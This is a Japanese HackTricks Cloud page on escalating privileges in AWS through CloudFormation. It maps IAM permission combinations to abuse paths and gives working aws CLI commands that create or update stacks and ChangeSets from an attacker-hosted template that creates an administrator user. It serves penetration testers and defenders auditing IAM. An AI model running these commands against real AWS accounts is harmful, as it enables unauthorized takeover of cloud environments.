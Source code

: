 # AWS - Cloudformation Privesc

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンを見たい**場合、または**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご覧ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有する**ために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する。

</details>

## cloudformation

cloudformationについての詳細は次を参照してください：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

**`iam:PassRole`**と**`cloudformation:CreateStack`**の権限を持つ攻撃者は、**CloudFormationテンプレートを作成**して特権を昇格させることができます。このテンプレートは、CloudFormationスタックの作成時に渡されたロールの権限を使用してアクションを実行し、リソースを作成します。
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
攻撃者のウェブサイトに配置されたテンプレートには、**管理者ユーザーの作成**などの悪意のあるアクションの手順が含まれています。その後、それらの資格情報を使用して自分のアクセス権をエスカレーションさせます。

次のページでは、追加の権限**`cloudformation:DescribeStacks`**を使用した**攻撃例**があります：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在的な影響:** 指定されたcloudformationサービスロールへの特権昇格。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

この場合、既存のcloudformationスタックを**悪用**して更新し、前のシナリオと同様に特権をエスカレーションさせることができます。
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy`権限を使用すると、スタックに対して自分自身に`UpdateStack`権限を与え、攻撃を実行することができます。

**潜在的な影響:** 指定されたcloudformationサービスロールへの特権昇格。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

この権限を持っているが、**`iam:PassRole`がない**場合でも、使用されているスタックを**更新**し、既にアタッチされている**IAMロールを悪用**することができます。エクスプロイトの例については、前のセクションを参照してください（ただし、更新時にロールを指定しないでください）。

`cloudformation:SetStackPolicy`権限を使用すると、スタックに対して自分自身に`UpdateStack`権限を与え、攻撃を実行することができます。

**潜在的な影響:** 既にアタッチされているcloudformationサービスロールへの特権昇格。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

**ロールのパスとChangeSetの作成と実行**の権限を持つ攻撃者は、CreateStackまたはUpdateStackと同様に、新しいcloudformationスタックを作成/更新し、cloudformationサービスロールを悪用することができます。

以下のエクスプロイトは、ChangeSetの権限を使用してスタックを作成する**CreateStackのバリエーション**です。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy`権限を使用すると、スタックに対して**`ChangeSet`権限を自己付与**し、攻撃を実行することができます。

**潜在的な影響:** CloudFormationサービスロールへの特権昇格。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

これは前の方法と同様ですが、**IAMロールを渡さずに**、既にアタッチされているものを悪用するだけで済みます。パラメータを変更するだけです。
```
--change-set-type UPDATE
```
**潜在的な影響:** すでにアタッチされているCloudFormationサービスロールへの特権昇格。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻撃者はこれらの権限を悪用して、任意のCloudFormationロールを悪用するためにStackSetを作成/更新することができます。

**潜在的な影響:** CloudFormationサービスロールへの特権昇格。

### `cloudformation:UpdateStackSet`

攻撃者は、passRole権限なしでこの権限を悪用して、アタッチされたCloudFormationロールを悪用するためにStackSetを更新することができます。

**潜在的な影響:** アタッチされたCloudFormationロールへの特権昇格。

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで宣伝したい**場合や、**PEASSの最新バージョンにアクセスしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)を手に入れましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしましょう🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **ハッキングのテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
